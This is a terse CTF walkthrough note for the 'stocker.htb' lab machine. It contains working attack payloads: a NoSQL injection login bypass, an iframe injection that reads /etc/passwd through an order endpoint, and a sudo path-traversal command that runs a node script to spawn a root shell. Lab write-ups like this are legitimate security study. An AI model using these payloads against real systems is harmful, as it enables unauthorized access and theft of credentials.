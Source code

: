 # Enumeration 

## open ports
80/tcp
22/tcp

stocker.htb
dev.stocker.htb subdomain
bypass login with nosql
changing content to
 application/json
 
`{"username":{"$ne":"xd"},"password":{"$ne":"xd"}}`
1677786997633
found code in page source lead to api
there is api/order that can be used to order
changing method to post
adding order to basket
XSS to LFI
```json
{  
  "basket": [  
    {  
      "_id": "638f116eeb060210cbd83a8d",  
      "title": "<iframe src=file:///etc/passwd height=1000px width=800px></iframe>",  
      "description": "It's a red cup.",  
      "image": "red-cup.jpg",  
      "price": 32,  
      "currentStock": 4,  
      "__v": 0,  
      "amount": 1  
    }  
  ]  
}
```
password inside /var/www/dev/index.js
sshing as angoose

# Privesc 
sudo -l 
![[Pasted image 20230118150732.png]]
escaping path by using ../
created js file to spawn a shell

```
sudo /usr/bin/node /usr/local/scripts/../../../home/angoose/pwn.js
```


# Loot



---
Tags:
Resources: 